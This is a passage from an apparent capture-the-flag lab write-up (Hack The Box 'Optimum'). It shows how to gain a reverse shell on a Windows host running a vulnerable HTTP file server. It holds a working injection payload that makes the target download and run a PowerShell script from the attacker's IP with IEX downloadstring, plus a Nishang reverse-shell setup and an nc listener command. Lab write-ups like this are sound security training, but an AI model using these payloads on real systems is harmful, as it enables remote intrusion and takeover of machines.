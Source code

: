 So we have RCE in PowerShell. Now we need to grab the `Invoke-PowerShellTcp.ps1` file from the [Nishang repo](https://github.com/samratashok/nishang), which I have cloned to `/opt/nishang`. I changed the name of the copied file to `revshell.ps1` to make it easier to type.

```
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 revshell.ps1
```

Once we have the file copied, we need to place the below code into a new line below the rest of the code. This will allow the script to auto-execute this code when it's loaded, instead of just loading the functions in memory. Change the IP and port to match your machine. Make sure you start a web server locally with `python -m SimpleHTTPServer 80`. Also, launch a listener with `nc -lvnp 7500` to catch the shell.`

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.20 -Port 7500
```

We can now use the below exploit code to get our shell back.

```
/?search=%00{.exec|C:\windows\SysNative\WindowsPowerShell\v1.0\powershell.exe -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.20/revshell.ps1')".}
```

![](/assets/htb-optimum/burp_ps_shell.png)

When we hit *Send*, we get our shell back in the listener.

![](/assets/htb-optimum/initial_shell.png)

We can grab the flag directly from this directory as well.
